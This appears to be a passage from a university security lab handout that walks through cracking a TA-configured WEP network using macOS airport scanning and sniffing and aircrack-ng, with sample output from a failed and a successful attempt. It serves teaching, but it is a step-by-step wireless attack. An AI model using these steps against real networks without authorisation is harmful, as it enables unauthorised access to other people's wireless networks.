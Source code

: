 #### 3.2.1.1 WEP Cracking

The very first thing you need to do in Checkpoint 2 is to crack a Wifi network that TAs set up and find out the WiFi password (WEP key). Though it may sound hard, WEP is one of the huge failures in security and can be easily cracked by aircrack-ng. Assuming everything is correctly set up, first figure out which channel to sniff by running:
```
sudo airport -s
```
which will list all the wireless networks around you. In it, you will find something like this:
```
        SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
cs461mp3fa17 60:38:e0:11:9b:b2 -30  1       Y  -- WEP
```
If not, the router is not up and running, and you might need to consult to the TA in charge. But if you are able to identify a WEP network like above, sniff the selected channel (in this case, 1):
```
sudo airport en0 sniff [CHANNEL]
```
If you are getting a help message after running the above command, it might be because the OS X version is different. Go to Network Utility on your Mac to check which ethernet port is for WiFi. (The other case is usually *en1*.) After running the sniff command, you will start to capture 802.11 packets. If so, open another terminal and find the capture file which is located in /tmp/airportSniff*.cap. After locating the capture file, run:
```
aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]
```
where TARGET_MAC_ADDRESS is BSSID found earlier (in this case, 60:38:e0:11:9b:b2) and CAP_FILE is the name of the capture file you found in /tmp. Executing aircrack-ng might give you:
```
                                 Aircrack-ng 1.2 rc4


                 [00:00:01] Tested 131137 keys (got 9619 IVs)

   KB    depth   byte(vote)
    0   16/ 17   BC(12032) 9A(12032) BF(12032) D5(12032) FB(12032) 
    1    7/  9   06(13824) 35(13312) 61(13312) 0E(13056) B8(12800) 
    2   10/ 12   E2(12288) 48(12288) 3D(12032) 86(12032) 63(12032) 
    3   29/  3   D2(11776) 1E(11520) F1(11520) 1C(11520) DF(11520) 
    4   23/  4   0E(11776) 56(11520) 4B(11520) E8(11520) 9B(11520) 

   Attack failed. Possible reasons:

     * Out of luck: you must capture more IVs. Usually, 104-bit WEP
       can be cracked with about 80 000 IVs, sometimes more.

     * Try to raise the fudge factor (-f).
```
This means you have not collected enough IVs to crack WEP, and you need to wait a bit more until you have sufficient IVs. Generally, you need around 20,000 IVs, which takes around 10-20 minutes, but it really depends on luck. It should not take more than an hour however. Successful cracking will show:
```
                                                     Aircrack-ng 1.2 rc4


                                     [00:00:03] Tested 1872 keys (got 18506 IVs)

   KB    depth   byte(vote)
    0    0/  1   79(28160) DA(25088) 84(24576) 4A(24320) 82(23808) 67(23552) A8(23552) 0E(23296) F6(23296) 
    1    1/  3   B7(26880) 55(25856) AB(24832) 0E(24576) 35(24576) 84(24064) 49(23808) 25(23552) 78(23552) 
    2    2/  5   65(23552) 95(23296) 3B(23296) CD(23296) 1F(23296) 9E(23040) 7D(23040) FE(23040) BC(22784) 
```
